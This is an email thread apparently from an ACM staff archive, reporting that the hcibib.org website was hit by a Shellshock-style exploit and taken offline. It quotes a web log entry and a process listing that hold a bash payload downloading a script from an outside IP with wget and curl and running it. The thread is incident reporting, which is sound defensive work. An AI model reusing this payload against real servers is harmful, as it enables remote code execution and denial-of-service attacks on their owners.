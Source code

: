 >>>
>>>> Hello Gary,
>>>> I had to take the hcibib.org website offline tonight.   The site was used to execute a denial of service attack that took down the server.
>>>> Here is the reference from the hcibib.org weblogs
>>>>
>>>> 62.75.145.250 - - [06/May/2015:12:12:39 -0400] "GET / HTTP/1.1" 200 10740 "-" "() { :; }; /bin/bash -c 'rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1'"
>>>>
>>>> I put the entire weblog for today to your /home/Perlman
>>>>
>>>> The request executed a denial of service attack that started this.
>>>> apache   28593     1  0 12:12 ?        00:00:00 /bin/bash -c rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1
>>>>
>>>> Attached is a sample of what was running on the server.
>>>>
>>>> I have changed the default document root of the website until I hear from you.  I would prefer to bring the site back online restricted to the IP address that you will be connecting from so that you have time to properly examine you site and then we can open it back up.  Please let me know the IP address you will be connecting from and I will make the appropriate configuration changes.
>>>>
>>>> Thanks
>>>> Adam
>>>>
>>>>
>>>> Adam Greenberg
>>>> Senior Systems Analyst
>>>> Association for Computing Machinery
>>>> 2 Penn Plaza
>>>> Suite 701
>>>> New York, NY 10121
>>>> Office: 212-626-0573
>>>> greenberg@acm.org
>>>>
>>>>
>>>
>>>
>>
>>
>
> --
>

-- 

From perlman@turing.acm.org Mon May 11 22:18:31 2015 -0400
Status: 
X-Status: 
X-Keywords:
Date: Mon, 11 May 2015 22:18:31 -0400 (EDT)
From: Gary PERLMAN <perlman@turing.acm.org>
To: Adam Greenberg <greenberg@hq.acm.org>
cc: Ken Bauer <kenbauer@acm.org>, ishelpdesk <ishelpdesk@hq.acm.org>
Subject: RE: hcibib.org website problem
In-Reply-To: <CY1PR0501MB124193B6E14A9A151A7F45099FDB0@CY1PR0501MB1241.namprd05.prod.outlook.com>
Message-ID: <Pine.LNX.4.64.1505112215160.2935@turing.acm.org>
References: <BN3PR0501MB123593A3CC77235DDD7190659FD00@BN3PR0501MB1235.namprd05.prod.outlook.com>
 <Pine.LNX.4.64.1505081848190.27144@turing.acm.org>
 <CY1PR0501MB1241687AF2DB723952BDC7B09FDD0@CY1PR0501MB1241.namprd05.prod.outlook.com>
 <Pine.LNX.4.64.1505090950260.4925@turing.acm.org>